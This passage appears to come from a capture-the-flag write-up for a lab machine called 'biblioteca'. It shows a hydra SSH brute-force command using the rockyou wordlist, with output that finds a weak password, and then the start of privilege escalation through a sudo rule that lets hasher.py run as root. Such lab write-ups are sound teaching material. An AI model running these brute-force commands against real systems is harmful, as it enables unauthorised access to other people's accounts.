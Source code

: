 
`hydra -t 4 -l h---- -P /usr/share/wordlists/rockyou.txt -vV <target-ip> ssh`
```
[ATTEMPT] target <target-ip> - login "h----" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "iloveyou" - 5 of 14344399 [child 0] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "princess" - 6 of 14344399 [child 1] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "1234567" - 7 of 14344399 [child 2] (0/0)
✂️ ................................ ✂️
[ATTEMPT] target <target-ip> - login "h----" - pass "yomama" - 2056 of 14344399 [child 3] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "spooky" - 2057 of 14344399 [child 1] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "pimpin1" - 2058 of 14344399 [child 3] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "maricel" - 2059 of 14344399 [child 0] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "gizmo1" - 2060 of 14344399 [child 3] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "dondon" - 2061 of 14344399 [child 0] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "divine" - 2062 of 14344399 [child 0] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "chucky" - 2063 of 14344399 [child 0] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "aries" - 2064 of 14344399 [child 0] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "rowena" - 2065 of 14344399 [child 2] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "nokia" - 2066 of 14344399 [child 2] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "stitch" - 2067 of 14344399 [child 2] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "jerry" - 2068 of 14344399 [child 2] (0/0)
[ATTEMPT] target <target-ip> - login "h----" - pass "h----" - 2069 of 14344399 [child 2] (0/0)
[22][ssh] host: <target-ip>   login: h----   password: h----
[STATUS] attack finished for <target-ip> (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```
We can now connect as user `h----` via SSH and access `hasher.py` (as well as the user flag)!

## Privilege Escalation

### `sudo -l`

**As a refresher:** The `sudo` command represents one of the most straightforward Linux privilege escalation vectors. By default, the command allows you to run a program with root privileges. Beyond this, system administrators may provision standard user accounts `sudo` privileges related to the execution of context-specific program execution.

To check which, if any, `sudo` privileges that a user has, we can run `sudo` with the `-l` flag to list commands that the current user is allowed (and/or prohibited) from executing with elevated permissions. The `-U` flag can be used to specify another valid user on the current host machine. 

```
h----@biblioteca:~$ sudo -l
Matching Defaults entries for h---- on biblioteca:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User h---- may run the following commands on biblioteca:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/h----/hasher.py

```
